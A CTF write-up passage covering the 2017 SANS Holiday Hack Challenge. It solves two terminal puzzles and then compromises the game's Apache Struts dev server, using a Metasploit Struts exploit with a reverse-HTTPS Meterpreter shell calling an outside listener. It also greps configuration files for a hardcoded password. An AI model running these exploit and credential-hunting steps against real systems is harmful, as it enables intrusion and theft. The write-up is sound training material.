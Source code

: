 SANS Christmas Challenge 2017
=============================
:date: 2018-01-10
:author: useless
:category: Write-up
:slug: sans-christmas-challenge-2017

.. role:: strike
    :class: strike

.. image:: /images/sans-christmas-challenge-2017/sans_christmas_challenge_2017_logo.png
    :alt: sans_christmas_challenge_2017_logo.png
    :align: center

'Tis the season to be pwning, falalalala lalalala. As usual, here's my write-up
for the `2017 SANS Christmas Challenge <https://holidayhackchallenge.com/2017/>`__.

.. contents:: Table of contents

Introduction
~~~~~~~~~~~~

We're greeted by Sam the Snowman, who exposes the situation to us. The North
Pole is under siege, attacked by giant falling snowballs, and an
Inter-Dimensional Tornado, that shredded *The Great Book*. This book tells the
epic story of the elves. Our mission is to redirect the falling snowballs,
find out who is behind all this, and recover the missing seven pages of *The
Great Book*.

Here are the questions we must answer:

1. `Visit the North Pole and Beyond at the Winter Wonder Landing Level to collect the first page of The Great Book using a giant snowball. What is the title of that page?`

2. `Investigate the Letters to Santa application at https://l2s.northpolechristmastown.com. What is the topic of The Great Book page available in the web root of the server? What is Alabaster Snowball's password?`

3. `The North Pole engineering team uses a Windows SMB server for sharing documentation and correspondence. Using your access to the Letters to Santa server, identify and enumerate the SMB file-sharing server. What is the file server share name?`

4. `Elf Web Access (EWA. is the preferred mailer for North Pole elves, available internally at http://mail.northpolechristmastown.com. What can you learn from The Great Book page found in an e-mail on that server?`

5. `How many infractions are required to be marked as naughty on Santa's Naughty and Nice List? What are the names of at least six insider threat moles?  Who is throwing the snowballs from the top of the North Pole Mountain and what is your proof?`

6. `The North Pole engineering team has introduced an Elf as a Service (EaaS.  platform to optimize resource allocation for mission-critical Christmas engineering projects at http://eaas.northpolechristmastown.com. Visit the system and retrieve instructions for accessing The Great Book page from C:\\greatbook.txt. Then retrieve The Great Book PDF file by following those directions. What is the title of The Great Book page?`

7. `Like any other complex SCADA systems, the North Pole uses Elf-Machine Interfaces (EMI. to monitor and control critical infrastructure assets. These systems serve many uses, including email access and web browsing. Gain access to the EMI server through the use of a phishing attack with your access to the EWA server. Retrieve The Great Book page from C:\\GreatBookPage7.pdf. What does The Great Book page describe?`

8. `Fetch the letter to Santa from the North Pole Elf Database at http://edb.northpolechristmastown.com. Who wrote the letter?`

9. `Which character is ultimately the villain causing the giant snowball problem. What is the villain's motive?`

This challenge is divided into two targets:

* The North Pole Christmas Town infrastructure, which includes the Letters To
  Santa application, and the internal 10.142.0.0/24 network.
* The `North Pole and Beyond <https://2017.holidayhackchallenge.com/>`__, where
  we have to redirect falling snowballs. These levels also have Cranberry Pi
  terminal with challenges to solve. Solving these challenges gives us objects
  to redirect the falling snowballs, and hints to the exploitation of the North
  Pole Christmas Town infrastructure. Hints are also available for the
  Cranberry Pi terminal challenges, on the Twitter accounts of the different
  elves.

Now I know that hints can be helpful, but it's more fun to try and figure out
how to solve the different challenges our own way. So:

* We won't use the Twitter profiles to solve the Cranberry Pi challenges.
* I'll post the solutions to the Cranberry Pi challenges, but we won't use the
  hints that are given after solving.

As usual, I'll try to detail my thought process as much as possible, including
dead-ends and mistakes (that's the best way to learn).

Sounds good? Great (plus, you don't really have a say)!

First page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
North Pole and Beyond: Winter Wonder Landing
--------------------------------------------

The first page is available in the North Pole and Beyond, in the level **Winter
Wonder Landing**. We must use the giant falling snowball to get the first page.
But let's first solve the Cranberry Pi challenge.

Cranberry Pi: Yannick's (dirty) solution
........................................

::

                                     |
                                   \ ' /
                                 -- (*) --
                                    >*<
                                   >0<@<
                                  >>>@<<*
                                 >@>*<0<<<
                                >*>>@<<<@<<
                               >@>>0<<<*<<@<
                              >*>>0<<@<<<@<<<
                             >@>>*<<@<>*<<0<*<
               \*/          >0>>*<<@<>0><<*<@<<
           ___\\U//___     >*>>@><0<<*>>@><*<0<<
           |\\ | | \\|    >@>>0<*<0>>@<<0<<<*<@<<
           | \\| | _(UU)_ >((*))_>0><*<0><@<<<0<*<
           |\ \| || / //||.*.*.*.|>>@<<*<<@>><0<<<
           |\\_|_|&&_// ||*.*.*.*|_\\db//_
           """"|'.'.'.|~~|.*.*.*|     ____|_
               |'.'.'.|   ^^^^^^|____|>>>>>>|
               ~~~~~~~~         '""""`------'
    My name is Bushy Evergreen, and I have a problem for you.
    I think a server got owned, and I can only offer a clue.
    We use the system for chat, to keep toy production running.
    Can you help us recover from the server connection shunning?
    Find and run the elftalkd binary to complete this challenge.
    elf@3b92caa92835:~$

Ok, so we just have to find the :code:`elftalkd` binary and launch it, easy
enough:

.. code-block:: console

    elf@2849ef63a77a:~$ find / -name elftalkd
    bash: /usr/local/bin/find: cannot execute binary file: Exec format error

Hmm, :code:`find` doesn't work, dammit. We can try to execute a
:code:`ls -lR /`, however this does not give us the full path to the listed
files:

.. code-block:: console

    elf@2849ef63a77a:/$ ls -lR /
    /:
    total 64
    drwxr-xr-x   2 root   root    4096 Nov 14 13:49 bin
    drwxr-xr-x   2 root   root    4096 Apr 12  2016 boot
    drwxr-xr-x   5 root   root     360 Dec 23 16:17 dev
    drwxr-xr-x   1 root   root    4096 Dec 23 16:17 etc
    drwxr-xr-x   1 root   root    4096 Dec  4 14:32 home
    drwxr-xr-x   8 root   root    4096 Sep 13  2015 lib
    drwxr-xr-x   2 root   root    4096 Nov 14 13:49 lib64
    drwxr-xr-x   2 root   root    4096 Nov 14 13:48 media
    drwxr-xr-x   2 root   root    4096 Nov 14 13:48 mnt
    drwxr-xr-x   2 root   root    4096 Nov 14 13:48 opt
    dr-xr-xr-x 292 nobody nogroup    0 Dec 23 16:17 proc
    drwx------   2 root   root    4096 Nov 14 13:49 root
    drwxr-xr-x   1 root   root    4096 Dec  4 14:32 run
    drwxr-xr-x   1 root   root    4096 Nov 17 21:59 sbin
    drwxr-xr-x   2 root   root    4096 Nov 14 13:48 srv
    dr-xr-xr-x  13 nobody nogroup    0 Dec 21 14:03 sys
    drwxrwxrwt   1 root   root    4096 Dec  4 14:32 tmp
    drwxr-xr-x   1 root   root    4096 Nov 14 13:48 usr
    drwxr-xr-x   1 root   root    4096 Nov 14 13:49 var
    /bin:
    total 7364
    -rwxr-xr-x 1 root root 1037528 May 16  2017 bash
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 cat
    -rwxr-xr-x 1 root root   60272 Mar  2  2017 chgrp
    -rwxr-xr-x 1 root root   56112 Mar  2  2017 chmod
    -rwxr-xr-x 1 root root   64368 Mar  2  2017 chown
    -rwxr-xr-x 1 root root  151024 Mar  2  2017 cp
    [snip]
    /var/opt:
    total 0
    /var/spool:
    total 0
    lrwxrwxrwx 1 root root 7 Nov 14 13:48 mail -> ../mail
    /var/tmp:
    total 0

If I pipe this output to a :code:`grep elftalkd`, we can see that the file
exists:

.. code-block:: console

    elf@2849ef63a77a:/$ ls -lR / | grep elftalkd
    -rwxr-xr-x 1 root root 7385168 Dec  4 14:29 elftalkd

However, we don't have the parent folder. If we look at the full output of
:code:`ls -lR`, we can see that it has this form:

.. code-block:: console

    /path/to/folder1
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 file1_in_folder_1
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 file2_in_folder_1
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 file3_in_folder_1
    /path/to/folder2
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 file1_in_folder_2
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 file2_in_folder_2
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 file3_in_folder_2
    [...]

We can see that we have the full path to the parent folder, and then, line by
line, the files contained in this folder. So, if I grep for lines starting
with :code:`/`, along with greping for :code:`elftalkd`, I'll get an output
like this:

.. code-block:: console

    [...]
    /path/to/folder1
    /path/to/folder2
    /path/to/elftalkd
    -rwxr-xr-x 1 root root   52080 Mar  2  2017 elkftalkd
    /path/to/folder3
    [...]

However, the result will be lost in a list of folders, so I pipe my output
in another :code:`grep`, where I look for :code:`elkftalkd`. The :code:`-B 1`
option tells :code:`grep` to print the line before the matching line (which
should be the line with the parent folder to our program):

.. code-block:: console

    elf@2849ef63a77a:/$ ls -lR / | grep -E '^/|elftalkd' | grep -B 1 elftalkd
    /run/elftalk/bin:
    -rwxr-xr-x 1 root root 7385168 Dec  4 14:29 elftalkd

We now have the full path to our binary, :code:`/run/elftalkd/bin/elftalkd`.
We can now launch it:

.. code-block:: console

    elf@2849ef63a77a:/$ /run/elftalk/bin/elftalkd
            Running in interactive mode
            --== Initializing elftalkd ==--
    Initializing Messaging System!
    Nice-O-Meter configured to 0.90 sensitivity.
    Acquiring messages from local networks...
    --== Initialization Complete ==--
          _  __ _        _ _       _
         | |/ _| |      | | |     | |
      ___| | |_| |_ __ _| | | ____| |
     / _ \ |  _| __/ _` | | |/ / _` |
    |  __/ | | | || (_| | |   < (_| |
     \___|_|_|  \__\__,_|_|_|\_\__,_|
    -*> elftalkd! <*-
    Version 9000.1 (Build 31337)
    By Santa Claus & The Elf Team
    Copyright (C) 2017 NotActuallyCopyrighted. No actual rights reserved.
    Using libc6 version 2.23-0ubuntu9
    LANG=en_US.UTF-8
    Timezone=UTC
    Commencing Elf Talk Daemon (pid=6021)... done!
    Background daemon...

Cranberry Pi: the "official" solution
.....................................

After solving the Cranberry Pi challenge in my (dirty) way, I looked at `Bushy
Evergreen's twitter profile <https://twitter.com/GreenestElf>`__.  In `this
tweet <https://twitter.com/GreenestElf/status/938165130906365952>`__, he
mentions that someone replaced the :code:`find` executable with a wrong
version. Let's take a look at the :code:`find` executable on the console:

.. code-block:: console

    elf@2a00576f91ec:~$ which find
    /usr/local/bin/find
    elf@2a00576f91ec:~$ file /usr/local/bin/find
    /usr/local/bin/find: ELF 64-bit LSB shared object, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, BuildID[sha1]=6ebee1b65b978900b5485
    2a2d1e698f911064ab3, stripped

Hmm, the :code:`find` executable seems to be for an ARM processor. However,
we appear to be running on an Intel x64 processor:

.. code-block:: console

    elf@2a00576f91ec:~$ uname -a
    Linux 2a00576f91ec 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3 (2017-12-03) x86_64 x86_64 x86_64 GNU/Linux

That's why we got the :code:`Exec format error` message when we tried to
execute it: it's not for the right architecture. Let's copy a x64 :code:`find`
executable to the machine. To do so, I base64-encoded the :code:`find` binary
from my system, pasted it to a file on the Cranberry Pi console, and then
decoded it:

.. code-block:: console

    elf@2a00576f91ec:~$ echo "f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAwHIAAAAAAABAAAAAAAAAAAhbAwAAAAAAAAAAAEAAOAAJ
    AEAAHQAcAAYAAAAFAAAAQAAAAAAAAABAAAAAAAAAAEAAAAAAAAAA+AEAAAAAAAD4AQAAAAAAAAgA
    [snip]
    AAAAAAAAAAAAAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAEAAAADAAAAAAAAAAAAAAAAAAAAAAAAAPxZ
    AwAAAAAABgEAAAAAAAAAAAAAAAAAAAEAAAAAAAAAAAAAAAAAAAA=" > ~/find.b64
    elf@2a00576f91ec:~$ base64 -d ~/find.b64 > ~/find
    elf@2a00576f91ec:~$ chmod +x ~/find
    elf@2a00576f91ec:~$ file ~/find
    /home/elf/find: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7079a38abca5fb9d188cc66bb15fb
    ec5e98f0f00, stripped
    elf@2a00576f91ec:~$ ~/find / -name elftalkd 2> /dev/null
    /run/elftalk/bin/elftalkd

Redirecting the snowball
........................

Now that we have completed the challenge, we get a new object to redirect our
snowballs: the Conveyor, that can redirect snowballs.

.. image:: /images/sans-christmas-challenge-2017/winter_wonder_landing_terminal.png
    :alt: winter_wonder_landing_terminal.png
    :align: center

Here's the layout I used to redirect the snowball to the first page of *The
Great Book* (Ok, this is dirty, but I didn't understand that if I clicked on
the conveyor, I could change its direction):

.. image:: /images/sans-christmas-challenge-2017/winter_wonder_landing_snowball.gif
    :alt: winter_wonder_landing_snowball.gif
    :align: center

We now have the `first page to The Great Book </docs/sans-christmas-challenge-2017/GreatBookPage1.pdf>`__
(sha256: :code:`b86eca1fdb8d1fb00c38cebfbca0989579c00b482343dff950310de0f8c77888`):

    About This Book...

    This tome is the work of a successive group of anonymous scribes dedicated
    to preserving the memory of the exceptional Little People of Oz so that
    they'll go down in history. Over a span of several centuries, each author
    has striven to capture the most important social, political, and
    technological changes the Ozians have experienced from the happy golden
    days of yore through today.

    Each and every author is dedicated to the goal of helping future
    generations appreciate and understand the unique shared heritage of
    merriment, mirth, and magnanimity characteristic of the Little People of
    Oz. This book describes the good times they have shared. Also, it does
    not shy away from recording the bad times they have suffered as well. Each
    writer on this great multi-generational project attempts to record and
    present the facts neutrally, without bias or opinion, uninfluenced as much
    as possible by factionalism or the controversies of the day.

This North Pole and Beyond level doesn't have a North Pole Christmas Town
infrastructure level associated, so let's move on to the next page.

Second page of *The Great Book*
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Now the second page is not in the North Pole and Beyond level, but in the
North Pole Christmas Town infrastructure. But let's solve the NPaB challenge
first.

North Pole and Beyond: Winconceivable: The Cliffs of Winsanity
--------------------------------------------------------------
Cranberry Pi: Yannick's (dirty) solution
........................................

::

                    ___,@
                   /  <
              ,_  /    \  _,
          ?    \`/______\`/
       ,_(_).  |; (e  e) ;|
        \___ \ \/\   7  /\/    _\8/_
            \/\   \'=='/      | /| /|
             \ \___)--(_______|//|//|
              \___  ()  _____/|/_|/_|
                 /  ()  \    `----'
                /   ()   \
               '-.______.-'
       jgs   _    |_||_|    _
            (@____) || (____@)
             \______||______/
    My name is Sparkle Redberry, and I need your help.
    My server is atwist, and I fear I may yelp.
    Help me kill the troublesome process gone awry.
    I will return the favor with a gift before nigh.

    Kill the "santaslittlehelperd" process to complete this challenge.

Ok, we need to kill the :code:`santaslittlehelperd` process. Weirdly enough,
the :code:`kill` command did not seem to have any effect on the process:

.. code-block:: console

    elf@cc2c61f5d274:~$ ps aux | grep santaslittlehelperd
    elf          8  0.0  0.0   4224   684 pts/0    S    17:02   0:00 /usr/bin/santaslittlehelperd
    elf        163  0.0  0.0  11284   944 pts/0    S+   17:04   0:00 grep --color=auto santaslittlehelperd
    elf@cc2c61f5d274:~$ kill -9 8
    elf@cc2c61f5d274:~$ ps aux | grep santaslittlehelperd
    elf          8  0.0  0.0   4224   684 pts/0    S    17:02   0:00 /usr/bin/santaslittlehelperd
    elf        171  0.0  0.0  11284   944 pts/0    S+   17:04   0:00 grep --color=auto santaslittlehelperd

However, killing the process in the :code:`top` program seemed to work:

.. code-block:: console
    :hl_lines: 6

    top - 17:05:09 up 2 days,  3:10,  0 users,  load average: 0.05, 0.12, 0.12
    Tasks:   6 total,   1 running,   5 sleeping,   0 stopped,   0 zombie
    %Cpu(s):  0.0 us,  0.7 sy,  0.0 ni, 99.3 id,  0.0 wa,  0.0 hi,  0.0 si,  0.0 st
    KiB Mem : 14782588 total,  5738860 free,  1989032 used,  7054696 buff/cache
    KiB Swap:        0 total,        0 free,        0 used. 11804040 avail Mem
    Send pid 8 signal [15/sigterm] 9
      PID USER      PR  NI    VIRT    RES    SHR S  %CPU %MEM     TIME+ COMMAND
        8 elf       20   0    4224    684    612 S   0.0  0.0   0:00.00 santaslittlehel
       11 elf       20   0   13528   6468   1488 S   0.0  0.0   0:00.09 kworker
       12 elf       20   0   18248   3336   2848 S   0.0  0.0   0:00.01 bash
       18 elf       20   0   71468  26636   9420 S   0.0  0.2   0:00.50 kworker
      210 elf       20   0   36672   3124   2660 R   0.0  0.0   0:00.00 top

Cranberry Pi: the "official" solution
.....................................

After solving the challenge, I checked `Sparkle Redberry's Twitter account <https://twitter.com/GlitteryElf>`__.
In `this tweet <https://twitter.com/GlitteryElf/status/938539753372237824>`__,
she mentions having problems with a malicious alias. Let's run :code:`alias`
on the box to see what's what:

.. code-block:: console
    :hl_lines: 6 7 12 13

    elf@b21389dba617:~$ alias
    alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'
    alias egrep='egrep --color=auto'
    alias fgrep='fgrep --color=auto'
    alias grep='grep --color=auto'
    alias kill='true'
    alias killall='true'
    alias l='ls -CF'
    alias la='ls -A'
    alias ll='ls -alF'
    alias ls='ls --color=auto'
    alias pkill='true'
    alias skill='true'

Ah! There are aliases that prevent us from using :code:`kill` and the like,
which explains why our earlier :code:`kill` command didn't do anything. We
can redefine the aliases, or directly call the binaries.

.. code-block:: console

    elf@b21389dba617:~$ which kill
    /bin/kill
    elf@b21389dba617:~$ ps aux | grep santaslittlehelperd
    elf          8  0.0  0.0   4224   624 pts/0    S    17:29   0:00 /usr/bin/santaslittlehelperd
    elf        139  0.0  0.0  11284  1024 pts/0    S+   17:31   0:00 grep --color=auto santaslittlehelperd
    elf@b21389dba617:~$ /bin/kill -9 8
    elf@b21389dba617:~$ ps aux | grep santaslittlehelperd
    elf        148  0.0  0.0  11284   992 pts/0    S+   17:31   0:00 grep --color=auto santaslittlehelperd

Redirecting the snowball
........................

Anyway, since we managed to kill the process, we're given a new object: the
Candy Cane, which can redirect the snowball.

.. image:: /images/sans-christmas-challenge-2017/winconceivable_terminal.png
    :alt: winconceivable_terminal.png
    :align: center

Now here's the layout I used to redirect the snowball:

.. image:: /images/sans-christmas-challenge-2017/winconceivable_snowball.gif
    :alt: winconceivable_snowball.gif
    :align: center

North Pole Christmas Town infrastructure: Letters to Santa application
----------------------------------------------------------------------

The North Pole fine folks host a web application, where all good boys and girls
can send a letter to Santa, requesting their favorite toys:

.. image:: /images/sans-christmas-challenge-2017/l2s_application.png
    :alt: l2s_application.png
    :align: center

The question specifies that there is a page of *The Great Book* at the web root
of the server. Let's see, the name of the first page was
:code:`GreatBookPage1.pdf`. Now, what could possibly be the name of this
second page... You guessed it, if you browse directly to the URL
https://l2s.northpolechristmastown.com/GreatBookPage2.pdf, you get direct
access to the `second page of The Great Book </docs/sans-christmas-challenge-2017/GreatBookPage2.pdf>`__ (sha256: :code:`c4983d87ac8debc02a07d586ea9e43839ba081a426b5c490ceadb830c1cc3d4f`):

    On the Topic of Flying Animals

    Originally, only birds could fly in Oz. But, throughout the land, it was
    universally recognized that other flying animals would bring great economic
    benefits - faster transportation, decreased shipping costs, and a certain
    whimsicality that would likely increase tourism. Oz's greatest scientific
    minds were tasked with the creation of such beasts. Unfortunately, the
    actual development of flying animal species was plagued with unforeseen
    difficulties.

    The first attempt, a single flying lion name Moonracer, was deemed a
    failure. Although the lion could indeed fly, children responded in abject
    terror at his fearsome appearance. The Oz Chamber of Commerce demanded that
    scientists choose a species less formidable than a lion.

    Hoping to correct their error, Ozian scientists next grafted wings onto
    monkeys, hoping that inherent simian cutenes would prevail. Alas, winged
    monkeys proved even more horrific than the flying lion.

    The exasperated scientists then made their third and final attempt - flying
    reindeer. Through intense research, they devised an incredible
    technological advancement, that would allow reindeer to fly without wings!
    It was an unparalleled genetic and aerodynamic achievement.

    Yet, even this advance was accompanied by a slight concern. The
    deep-seated genetic alterations introduced to support wingless flight
    resulted in an infinitesimally small probability of a significant side
    effect: a one-in-a-million chance that a reindeer would one day be born
    with a brilliantly shiny red nose. Some of the scientists posited such a
    reindeer's nose would even glow. Despite this change, the reserachers
    charged ahead to breed an entire herd of such flying reindeer. And, for
    centuries, the "red nose" phenomenon was never observed in the wild.

    Although the flying reindeer were a technological marvel and achieved
    enormous success in Oz, The Great Schism changed everything. During the
    separation negotiations, the Wizard of Oz and Santa Claus both decided that
    Moonrancer and the reindeer would be moved to the North Pole, while the
    flying monleys would remain in Oz.

Now let's try to pwn this application, in order to get access to the internal
network. If we take a look at the source code of the application, we find
something interesting:

.. code-block:: html
    :hl_lines: 18

    <!DOCTYPE html>


    <html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1">
        <title>Toys List</title>
        <script src="/js/jquery.min.js"></script>
        <link rel="stylesheet" href="/css/materialize.min.css">
        <script src="/js/materialize.min.js"></script>
        <meta name="description" content="North Pole Letters to Santa">
        <meta name="keywords" content="North,Pole,Letters,Santa,toy,request">
        <meta name="author" content="Alabaster Snowball">
    [...]
        <!-- Development version -->
        <a href="http://dev.northpolechristmastown.com" style="display: none;">Access Development Version</a>

There seems to be a hidden link, to a development version of the application:

.. image:: /images/sans-christmas-challenge-2017/dev_toy_index.png
    :alt: dev_toy_index.png
    :align: center

Users can manually request toys:

.. image:: /images/sans-christmas-challenge-2017/dev_toy_request.png
    :alt: dev_toy_request.png
    :align: center

Did you notice something interesting in the above screenshots? Let's take a
closer look:

.. image:: /images/sans-christmas-challenge-2017/dev_toy_struts.png
    :alt: dev_toy_struts.png
    :align: center

This server is using Apache Struts as the application framework! Many of you
know that Struts was affected by a `pretty serious vulnerability <https://cwiki.apache.org/confluence/display/WW/S2-052>`__
this year, which leads to unauthenticated remote code execution.

Let's use our `favorite exploitation framework <https://github.com/rapid7/metasploit-framework>`__
to get a shell on this webserver. I installed Metasploit on a public-facing
server of mine. SANS helpfully `posted instructions <https://pen-testing.sans.org/blog/2017/12/10/putting-my-zero-cents-in-using-the-free-tier-on-amazon-web-services-ec2>`__
on how to register to the free-tier AWS offers if you don't already have a
public-facing server.

.. code-block:: console

    msf exploit(multi/http/struts2_rest_xstream) > options

    Module options (exploit/multi/http/struts2_rest_xstream):

       Name       Current Setting                 Required  Description
       ----       ---------------                 --------  -----------
       Proxies                                    no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOST      dev.northpolechristmastown.com  yes       The target address
       RPORT      443                             yes       The target port (TCP)
       SRVHOST    0.0.0.0                         yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT    80                              yes       The local port to listen on.
       SSL        true                            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                                    no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /orders/3043                    yes       Path to Struts action
       URIPATH                                    no        The URI to use for this exploit (default is random)
       VHOST                                      no        HTTP server virtual host


    Payload options (python/meterpreter/reverse_https):

       Name   Current Setting        Required  Description
       ----   ---------------        --------  -----------
       LHOST  X.X.X.X                yes       The local listener hostname
       LPORT  443                    yes       The local listener port
       LURI                          no        The HTTP Path


    Exploit target:

       Id  Name
       --  ----
       1   Python (In-Memory)


    msf exploit(multi/http/struts2_rest_xstream) > exploit

    [-] Handler failed to bind to 163.172.50.13:443
    [*] Started HTTPS reverse handler on https://0.0.0.0:443
    [*] https://X.X.X.X:443 handling request from X.X.X.X; (UUID: oqqwyeik) Staging python payload (43883 bytes) ...
    [*] Meterpreter session 1 opened (Y.Y.Y.Y:443 -> X.X.X.X:50354) at 2017-12-24 16:56:24 +0100

    meterpreter > getuid
    Server username: alabaster_snowball

Alright, we have a Meterpreter shell on the server!

.. image:: /images/sans-christmas-challenge-2017/l2s_meterpreter.gif
    :alt: l2s_meterpreter.gif
    :align: center

Let's take a look at :code:`/var/www/html`, which is the web root according to
the nginx configuration file found on the server:

.. code-block:: console

    meterpreter > ls -l /var/www/html/*.pdf
    Listing: /var/www/html/*.pdf
    ============================

    Mode              Size     Type  Last modified              Name
    ----              ----     ----  -------------              ----
    100444/r--r--r--  1764298  fil   2017-12-05 18:27:15 +0100  GreatBookPage2.pdf

We see our second page, which we found earlier via forceful browsing. So even
if the name had not been predictable, we would have been able to find this
page.

Now, the goal is to find Alabaster Snowball's password. I first tried to
escalate my privileges on the server, in order to get access to the
:code:`/etc/shadow` file, but I didn't succeed. So, let's find another way.

Let's take a look at listening sockets:

.. code-block:: console
    :hl_lines: 13 15

    meterpreter > shell
    Process 20555 created.
    Channel 7 created.
    /bin/sh: 0: can't access tty; job control turned off
    $ netstat -tlpn
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
    tcp        6      0 0.0.0.0:9000            0.0.0.0:*               LISTEN      11043/python
    tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN      790/java
    tcp6       0      0 :::22                   :::*                    LISTEN      -
    tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN      790/java

We can see that our user is running a Java program, with the PID 790. Let's
get details on this process:

.. code-block:: console

    $ ps aux | grep -w 790
    alabast+   790  5.0  2.0 939444 630656 ?       Sl   03:01  43:43 /opt/jre/bin/java -Djava.util.logging.config.file=/opt/apache-tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Dfile.encoding=UTF-8 -Dnet.sf.ehcache.skipUpdateCheck=true -XX:+UseConcMarkSweepGC -XX:+CMSClassUnloadingEnabled -XX:+UseParNewGC -XX:MaxPermSize=128m -Xms512m -Xmx512m -Djava.endorsed.dirs=/opt/apache-tomcat/endorsed -classpath /opt/apache-tomcat/bin/bootstrap.jar -Dcatalina.base=/opt/apache-tomcat -Dcatalina.home=/opt/apache-tomcat -Djava.io.tmpdir=/opt/apache-tomcat/temp org.apache.catalina.startup.Bootstrap start

Our user is running the Apache Tomcat server. The different Java resources
seem to be installed in :code:`/opt`. Let's take a look at the files there.
There may indeed be configuration files containing our current user's password:

.. code-block:: console
    :hl_lines: 3

    $ grep -A 1 -Rn alabaster_snowball /opt
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class:3:            final String username = "alabaster_snowball";
    /opt/apache-tomcat/webapps/ROOT/WEB-INF/classes/org/demo/rest/example/OrderMySql.class-4-            final String password = "stream_unhappy_buy_loss";

Bingo, we got a password for our user, but it seems to be for a MySQL
connection. Let's see if our user used the same password for their system
password. Our pwned server has an SSH server accessible from the Internet:

.. code-block:: console

    $ nmap -p 22 dev.northpolechristmastown.com

